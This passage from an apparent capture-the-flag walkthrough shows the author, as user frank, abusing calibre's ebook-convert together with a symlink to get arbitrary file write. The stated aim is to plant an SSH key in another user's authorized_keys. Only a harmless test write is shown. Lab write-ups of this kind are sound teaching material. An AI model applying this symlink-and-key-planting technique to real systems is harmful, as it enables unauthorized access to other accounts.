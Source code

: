 It shows success, and the file exists:

    
    
    frank@bookworm:/home/neil/converter/calibre$ cat /tmp/web.txt 
    test data!
    
    
    
    
    
    
    

#### Symlinks for Arbitrary Write

If I can get write as `neil`, I would want to write an SSH key into their
`authorized_keys` file. But that has no extension, which by default means that
`ebook-convert` would create the directory, which is not useful.

If I want to write a text file but without a `.txt`, I’ll try a symlink:

    
    
    frank@bookworm:/home/neil/converter/calibre$ ln -s /tmp/output /tmp/output.txt
    frank@bookworm:/home/neil/converter/calibre$ ./ebook-convert /tmp/test.txt /tmp/output.txt 
    1% Converting input to HTML...
    InputFormatPlugin: TXT Input running
    on /tmp/test.txt
    Language not specified
    Creator not specified
    Building file list...
    Normalizing filename cases
    Rewriting HTML links
    flow is too short, not running heuristics
    Forcing index.html into XHTML namespace
    34% Running transforms on e-book...
    Merging user specified metadata...
    Detecting structure...
    Auto generated TOC with 0 entries.
    Flattening CSS and remapping font sizes...
    Source base font size is 12.00000pt
    Removing fake margins...
    Cleaning up manifest...
    Trimming unused files from manifest...
    Creating TXT Output...
    67% Running TXT Output plugin
    Converting XHTML to TXT...
    TXT output written to /tmp/output.txt
    Output saved to   /tmp/output.txt
    frank@bookworm:/home/neil/converter/calibre$ cat /tmp/output
    this is a test
    
    
    
    
    
    
    

It worked! I wrote text to `/tmp/output`.
